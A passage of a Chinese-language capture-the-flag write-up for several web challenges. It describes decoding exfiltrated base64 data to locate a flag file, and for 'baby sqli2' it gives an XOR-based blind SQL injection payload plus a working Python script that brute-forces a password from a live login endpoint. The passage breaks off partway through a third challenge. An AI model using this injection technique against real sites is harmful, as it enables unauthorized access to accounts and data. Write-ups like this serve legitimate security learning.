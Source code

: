 	在服务器上接受到base64之后的数据
	
	![](http://120.77.152.169/pic_upload/upload/201805172223532994.jpeg)

	将打回来的数据base64解密以后可以得到：

	```
	--6xakjdhcfhcnsk
	--7xabf8sahdchfudy.txt
	css
	index.php
	```

	猜想flag应该在--7xabf8sahdchfudy.txt中，直接请求这个文件夹即可得到flag

	![](http://120.77.152.169/pic_upload/upload/201805172230363469.jpeg)

*	**baby sqli2:**

	因为之前给了源码，但是waf和之前有一些不一样，没有之前那么严格，发现ascii,substr,mid,>,<,=,(),^都可以用，但是注释符用不了，那么基本就是盲注了，但是username字段只允许是admin，这点绕了我们很长时间，试了很多种方法，想要去绕过admin的限制，猜想了后台是strcmp,==之类的比较函数，但是都没有用，联想到放了^符号，那就试一试异或的注入，构造语句`admin'^1^'1`，这里为了闭合单引号。

	发现`admin'^1^'1`和`admin'^0^'1`返回的页面不一样，那么有了盲注的判断条件，直接写脚本跑吧，写的很简单：

	```python
	import requests

	url = 'http://45.40.207.251:8002/login.php'
	data = {'username': '','passwd':'123'}
	success = 'passwd is wrong'
	result1 = ''
	databasepayload = "admin'^(ascii(mid((passwd)from({bit})))={num})^'1"

	for i in range(1,35):
    	print i
    	for j in range(47,123):
        	finalpayload = databasepayload.format(bit=i, num=j)
        	data['username'] = finalpayload
        	result = requests.post(url, data=data)
        	if success in result.content:
        	    result1 = result1 + chr(j)
        	    print result1
	

	```

	没理解后台怎么判断admin的，比赛完找师傅py一波源码学习一下

*	**神秘的交流平台:**

	打开控制台，看到了invitation_code.js文件，猜测这里可以得到上面表单的邀请码

	![Alt text](http://120.77.152.169/pic_upload/upload/201805172246589052.jpeg)

	将invitation_code.js文件运行一下，可以得到：

	发现我们可以调用get_invitation_code方法，在控制台调用，得到进一步信息：
